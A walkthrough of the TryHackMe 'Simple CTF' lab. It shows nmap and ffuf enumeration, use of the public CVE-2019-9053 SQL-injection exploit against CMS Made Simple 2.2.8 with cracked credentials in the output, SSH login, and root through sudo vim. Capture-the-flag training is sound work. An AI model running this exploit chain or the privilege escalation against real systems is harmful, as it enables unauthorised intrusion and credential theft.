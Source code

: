 # Simple CTF
![tryhackme_logo](https://user-images.githubusercontent.com/83867734/185771149-cb02c6f2-8476-4ab3-a626-cca8db0a08bf.png)

Difficulty: **Easy**

Compromise the machine and read the user.txt and root.txt.

Tags
--
* CMS Made Simple
* CVE-2019-9053
* SQL Injection
* VIM privesc
* Sudoers

Tools used
--
* nmap
* ffuf
* CVE-2019-9053.py
* vim

Machines
--
Attacker:
* Name: attacker_machine
* Operating System: Athena OS
* IP Address: 10.18.98.39

Victim:
* Name: victim_machine
* IP Address: 10.10.52.78
* Other information must be gathered during the attack

Phase 1: Enumeration
--
```
sudo nmap -sS -sC -sV 10.10.52.78 -p- -T5 -vvv

<SNIP>
Discovered open port 80/tcp on 10.10.52.78
Discovered open port 2222/tcp on 10.10.52.78
Discovered open port 21/tcp on 10.10.52.78
<SNIP>
```
Use `ffuf`:
```
ffuf -u http://10.10.52.78/FFUF -H 'Host: 10.10.52.78' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Ge
cko/20100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en
;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'DNT: 1' -H 'Sec-GPC: 1' -w /usr/sh
are/payloads/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FFUF

simple                  [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 40ms]
```
Let's go deep on it:
```
ffuf -u http://10.10.52.78/simple/FFUF -H 'Host: 10.10.52.78' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Ge
cko/20100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en
;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'DNT: 1' -H 'Sec-GPC: 1' -w /usr/sh
are/payloads/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FFUF

modules                 [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 39ms]
uploads                 [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 39ms]
doc                     [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 39ms]
admin                   [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 173ms]
assets                  [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 39ms]
lib                     [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 39ms]
tmp                     [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 39ms]
```
Anyway, we see that the CMS used for this web application is CMS Made Simple.

Phase 2: Foothold
--
By looking at the bottom part of the home page, we see:
```
This site is powered by CMS Made Simple version 2.2.8
```
This version is vulnerable to SQL Injection: https://www.exploit-db.com/exploits/46635

Let's run the PoC exploit taken by the link (run it as Python2). For first let's install `pip` and `requests` and `termcolor` modules for Python2:
```
curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output get-pip.py
sudo python2 get-pip.py
pip2 install requests termcolor
```
Then, run the exploit:
```
python2 exploit.py -u http://10.10.52.78/simple --crack -w rockyou.txt

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```
Let's use this account for accessing by SSH:
```
ssh 10.10.52.78 -l mitch -p 2222
```
When we accessed, we can get immediately the user flag by `cat user.txt`.

Phase 3: Privilege Escalation
--
Execute:
```
sudo -l

User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```
We can use `vim` for spawning a privileged shell:
```
sudo /usr/bin/vim
```
On VIM environment, run:
```
:!cat /root/root.txt
```
and press Enter. You will get the root flag.